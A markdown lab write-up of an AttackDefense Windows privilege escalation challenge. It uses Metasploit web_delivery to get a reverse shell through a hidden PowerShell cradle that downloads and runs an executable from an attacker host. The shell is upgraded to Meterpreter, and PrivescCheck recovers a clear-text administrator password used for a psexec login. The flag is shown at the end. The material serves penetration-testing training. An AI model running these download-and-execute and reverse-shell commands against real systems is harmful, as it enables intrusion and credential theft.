 # 🔬Windows Privilege Escalation

> 🔬 [Windows: PrivescCheck](https://attackdefense.com/challengedetailsnoauth?cid=2404)
>
> - Target IP: `10.2.29.53`
> - Usage of the  **[PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck) script**
>   - *already present on the Victim Machine*

## Enumeration & Exploitation

```bash
nmap -sV 10.2.29.53
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp  open  microsoft-ds?
```

```bash
service postgresql start && msfconsole -q
```

```bash
setg RHOSTS 10.2.29.53
setg RHOST 10.2.29.53

search web_delivery
use exploit/multi/script/web_delivery
info
# Description:
#   This module quickly fires up a web server that serves a payload. The 
#   provided command which will allow for a payload to download and 
#   execute.
set target PSH\ (Binary)
set payload windows/shell/reverse_tcp
set PSH-EncodedCommand false
set LHOST eth1
exploit
```

- Copy the PowerShell code and run it on the target machine using `cmd`

```bash
powershell.exe -nop -w hidden -c [Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12;$z="echo ($env:temp+'\P4MPrq7y.exe')"; (new-object System.Net.WebClient).DownloadFile('http://10.10.24.2:8080/y3MMtnMlRkQ81pA', $z); invoke-item $z
```

- Back to the Attacker machine, *Command shell session opened*

![](assets/image-20230429104538548.png)

```bash
sessions 1
whoami
# Unprivileged user "student"
```

![Cmd Shell](assets/image-20230429104626554.png)

```bash
# Upgrade to a Meterpreter session
background
search shell_to
use post/multi/manage/shell_to_meterpreter
set LHOST eth1
set SESSION 1
show advanced
set WIN_TRANSFER VBS
options
# check the LPORT is not in conflict with the Session 1
run
sessions 2
```

![](assets/image-20230429105151345.png)

```bash
ps
migrate 5048
get privs
    SeChangeNotifyPrivilege
    SeIncreaseWorkingSetPrivilege
```

![](assets/image-20230429105333928.png)

## Privilege Escalation

```bash
cd C:\\Users\\student\\Desktop\\PrivescCheck
shell
dir
```

- Run [**`PrivescCheck`**](https://github.com/itm4n/PrivescCheck)

```bash
# Basic mode
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"

# Extended Mode + Export Txt Report
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_%COMPUTERNAME%"
```

```bash
exit
meterpreter > download PrivescCheck_ATTACKDEFENSE.txt

root@attackdefense:~# featherpad PrivescCheck_ATTACKDEFENSE.txt
```

![PrivescCheck Report](assets/image-20230429110943953.png)

![WinLogon clear-text password](assets/image-20230429111044202.png)

> 📌 `administrator`:`hello_123321`

### Administrator Login

- Use the `administrator` user to run a **privileged `cmd`**, trying `SMB` legitimate authentication

```bash
psexec.py administrator@10.2.29.53 cmd.exe
```

```bash
cd C:\Users\Administrator\Desktop
dir
type flag.txt
```

- This can be done with the `exploit/windows/smb/psexec` Metasploit module too.



<details>
<summary>Reveal Flag: 🚩</summary>



`2b070a650a92129c2462deae7707b0c5`

![](assets/2023-04-29_11-33.png)

</details>

------

